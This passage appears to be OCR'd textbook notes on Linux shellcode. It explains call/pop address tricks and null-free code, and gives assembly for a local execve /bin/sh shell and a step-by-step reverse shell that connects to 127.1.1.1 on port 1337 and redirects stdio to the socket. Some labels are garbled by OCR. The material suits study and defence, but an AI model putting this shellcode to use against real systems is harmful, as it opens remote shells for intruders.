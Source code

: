 This code gets executed in very special conditions without a PE header, known memory addresses, or
an import

**Linux shellcode in x86-64**

The main challenges that attackers face are as follows:
Getting the absolute address of the shellcode (to be able to access data)
Removing any null byte that can be produced from the shellcode (optional)

**Getting the absolute address**
Here, the shellcode abuses the call instruction, which takes a
relative address to where it should branch to and saves the absolute return address in the
stack(gotten by popping the stack)

After getting the absolute address, the shellcode can get the address of any data inside the shellcode, like so:

call next_ins:
next_ins:
pop eax ;now eax has the absolute address to next_ins
add eax, data_sec – next_ins ;here, eax has the address to data section
data_sec:
db ‘Hello, World',0

common way to get the absolute address is by using the FPU instruction fstenv, saves some parameters related to the FPU, including the absolute address of the last executed FPU instruction.

**Null-free shellcode**
Null-free shellcode is a type of shellcode that has to avoid any null byte to be able to fit a null-terminated string buffer

**Local shell shellcode**

simple example that spawns a shell:

x86

Spawns a shell
start:
xor ecx,ecx
xor eax,eax
pop ebx ; Load /bin/sh in ebx
mov al, 11 ; execve syscall ID
xor ecx,ecx ; no arguments in ecx
int 0x80 ; syscall
mov al, 1 ; exit syscall ID
xor ebx,ebx ; no errors
int 0x80 ; syscall
_end:
call _start
db '/bin/sh',0

x64
xor rdx, rdx
push rdx ;null bytes after the /bin/sh
mov rax, 0x68732f2f6e69622f ;/bin/sh
push rax
mov rdi, rsp
push rdx ;null arguments for /bin/sh
push rdi
mov rsi, rsp
xor rax, rax
mov al, 0x3b ;execve system call
syscall
xor rdi, rdi
mov rax, 0x3c ;exit system call
syscall

**Reverse shell shellcode**
most widely used types of shellcode. This shellcode connects to the attacker and provides them with a shell on the remote system

Create a socket: The shellcode needs to create a socket to connect to the internet. The system call that could be used for this purpose is socket

int socket(int domain, int type, int protocol);

xor edx,edx ;cleanup edx
push edx ;protocol=IPPROTO_IP (0x0)
push 0x1 ;socket_type=SOCK_STREAM (0x1)
push 0x2 ;socket_family=AF_INET (0x2)
mov ecx, esp ;pointer to socket() args
xor ebx,ebx
mov bl, 0x1 ;SYS_SOCKET
xor eax,eax
mov al, 0x66 ;socketcall syscall ID
int 0x80
xchg edx, eax ;edx=sockfd (the returned socket)

shellcode uses the socketcall system call (with ID 0x66)

represents many system calls, including socket, connect, listen, bind

SYS_SOCKET 1
SYS_BIND 2
SYS_CONNECT 3
SYS_LISTEN 4
SYS_ACCEPT 5


Connect to the attacker: In this step, the shellcode connects to the attacker using its IP and port. The shellcode fills a structure called sockaddr_in with the IP, port, and again AF_INET. Then, the shellcode executes the connect function from the socketcall list of functions

push 0x0101017f ;sin_addr=127.1.1.1 (network byte order)
xor ecx, ecx
mov cx, 0x3905
push cx ;sin_port=1337 (network byte order)
inc ebx
push bx ;sin_family=AF_INET (0x2)
mov ecx, esp ;save pointer to sockaddr struct
push 0x10 ;addrlen=16
push ecx ;pointer to sockaddr
push edx ;sockfd
mov ecx, esp ;save pointer to sockaddr_in struct
inc ebx ;sys_connect (0x3)
int 0x80 ;exec sys_connect

Redirect STDIN, STDOUT, and STDERR to socket: Before the shellcode
provides the shell to the user, it needs to redirect any output or error messages
from any program to the socket (to be sent to the attacker) and redirect any input
from the attacker to the running program

push 0x2
pop ecx ;set loop counter
xchg ebx,edx ;save sockfd
; loop through three sys_dup2 calls to redirect stdin(0),
stdout(1) and stderr(2)
loop:
mov al, 0x3f ;sys_dup2 systemcall ID
int 0x80
dec ecx ;decrement loop-counter
jns loop ;as long as SF is not set -> jmp to loop

Execute the shell: This is the last step, where the shellcode executes the execve call with /bin/sh